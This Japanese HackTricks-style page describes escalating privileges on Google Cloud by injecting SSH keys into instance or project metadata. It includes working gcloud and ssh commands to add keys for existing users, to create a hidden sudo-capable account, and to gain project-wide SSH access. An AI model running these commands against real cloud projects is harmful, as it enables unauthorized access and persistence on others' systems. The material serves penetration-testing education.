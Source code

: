 # GCP - カスタムSSHメタデータの追加

{% hint style="success" %}
AWSハッキングの学習と練習:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングの学習と練習: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksのサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* **HackTricks**と**HackTricks Cloud**のgithubリポジトリにPRを提出して、ハッキングトリックを共有してください。

</details>
{% endhint %}

## メタデータの変更 <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

インスタンスのメタデータの変更は、**攻撃者が必要な権限を取得した場合には、重大なセキュリティリスク**につながる可能性があります。

### カスタムメタデータへのSSHキーの組み込み

GCPでは、**Linuxシステム**はしばしば[Google Compute Engine用Python Linuxゲスト環境](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)からスクリプトを実行します。これの重要なコンポーネントは[アカウントデーモン](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)で、これは**定期的に**インスタンスのメタデータエンドポイントをチェックして**認証済みSSH公開キーの更新**を行います。

したがって、攻撃者がカスタムメタデータを変更できれば、デーモンが新しい公開キーを見つけ、それが処理されて**ローカルシステムに統合**されるようにすることができます。そのキーは既存のユーザーの`~/.ssh/authorized_keys`ファイルに追加されるか、キーの形式に応じて`sudo`権限を持つ新しいユーザーが作成される可能性があります。そして、攻撃者はホストを侵害できるようになります。

### 既存の特権ユーザーにSSHキーを追加する

1. **インスタンス上の既存のSSHキーを調べる:**
- インスタンスとそのメタデータを説明するコマンドを実行して、既存のSSHキーを特定します。出力の関連セクションは`metadata`の下にあり、特に`ssh-keys`キーの下にあります。
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
- SSHキーの形式に注意してください：ユーザー名はコロンで区切られたキーの前にあります。

2. **SSHキーのメタデータ用のテキストファイルを準備する:**
- ユーザー名とそれに対応するSSHキーの詳細を`meta.txt`という名前のテキストファイルに保存します。これは新しいキーを追加する際に既存のキーを保持するために重要です。

3. **ターゲットユーザー(`alice`を例として)の新しいSSHキーを生成する:**
- `ssh-keygen`コマンドを使用して新しいSSHキーを生成し、コメントフィールド(`-C`)がターゲットのユーザー名と一致することを確認します。
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- インスタンスのメタデータで見つかった形式と同様の形式で、新しい公開キーを`meta.txt`に追加します。

4. **インスタンスのSSHキーのメタデータを更新する:**
- `gcloud compute instances add-metadata`コマンドを使用して、更新されたSSHキーのメタデータをインスタンスに適用します。
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **新しいSSHキーを使用してインスタンスにアクセスする:**
- 新しいキーを使用してSSHでインスタンスに接続し、ターゲットユーザー(`alice`を例として)のコンテキストでシェルにアクセスします。
```bash
ssh -i ./key alice@localhost
sudo id
```

### 新しい特権ユーザーを作成してSSHキーを追加する

興味深いユーザーが見つからない場合は、`sudo`権限が付与される新しいユーザーを作成することが可能です。
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### プロジェクトレベルでのSSHキー <a href="#sshing-around" id="sshing-around"></a>

クラウド環境内の複数の仮想マシン（VM）へのSSHアクセス範囲を広げるために、**プロジェクトレベルでSSHキーを適用**することが可能です。このアプローチにより、プロジェクト内の任意のインスタンスにSSHアクセスできるようになります（プロジェクト全体のSSHキーが明示的にブロックされていない場合）。以下は要約したガイドです：

1. **プロジェクトレベルでSSHキーを適用：**
- `gcloud compute project-info add-metadata`コマンドを使用して、`meta.txt`からSSHキーをプロジェクトのメタデータに追加します。この操作により、SSHキーがプロジェクト内のすべてのVMで認識されるようになります。ただし、VMが「プロジェクト全体のSSHキーをブロックする」オプションを有効にしていない限りです。
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **プロジェクト全体のキーを使用してインスタンスにSSHする：**
- プロジェクト全体のSSHキーが設定されている場合、プロジェクト内の任意のインスタンスにSSHできます。プロジェクト全体のキーをブロックしていないインスタンスはSSHキーを受け入れ、アクセスを許可します。
- インスタンスに直接SSHする方法は、`gcloud compute ssh [INSTANCE]`コマンドを使用することです。このコマンドは現在のユーザー名とプロジェクトレベルで設定されたSSHキーを使用してアクセスを試みます。


# 参考文献
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)
